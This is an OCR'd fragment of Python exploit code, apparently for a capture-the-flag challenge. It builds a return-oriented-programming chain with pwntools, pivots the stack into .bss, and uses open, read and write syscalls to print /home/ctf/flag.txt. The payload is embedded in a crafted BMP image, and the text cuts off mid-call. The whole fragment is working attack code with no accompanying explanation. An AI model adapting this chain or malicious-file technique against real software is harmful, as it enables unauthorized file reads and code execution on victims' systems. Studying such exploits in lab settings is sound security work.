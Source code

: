 ```python
RET = 0x000000000040101a

def mov(where, what):
    return flat([
        POP_RDX_RBX,
        what,
        0x0,
        POP_RSI,
        where,
        MOV_RDX_TO_PTR_RSI
    ])

def exploit():
    global io
    rop = ROP(elf)

    SYSCALL = rop.find_gadget(['syscall', 'ret'])[0]

    pivot = elf.bss() + 0x200
    payload = cyclic(448) + p64(pivot) #+ cyclic(400) # can be 0 or 32 
    payload += flat({
        0: [
            p64(RET) * 10, # ret slep, some brute needed, just upload the same generated payload again
            mov(pivot, u64(b'/home/ctf/flag.txt'[0:8])),
            mov(pivot+8, u64(b'/home/ctf/flag.txt'[8:16])),
            mov(pivot+16, u64(b'xt'.ljust(8, b'\x00'))),

            POP_RDI,
            pivot,
            POP_RSI,
            0,
            POP_RDX_RBX,
            0,
            0,
            POP_RAX,
            2,
            SYSCALL,

            POP_RDI,
            3,
            POP_RSI,
            pivot,
            POP_RDX_RBX,
            0x40,
            0,
            POP_RAX,
            0,
            SYSCALL,

            POP_RDI,
            1,
            POP_RAX,
            1,
            SYSCALL            
        ]
    })

    with open(exploit_bmp, "wb") as f:
        f.write(build_bmp(
            width=20,
            height=20,
            imageSize=400,
```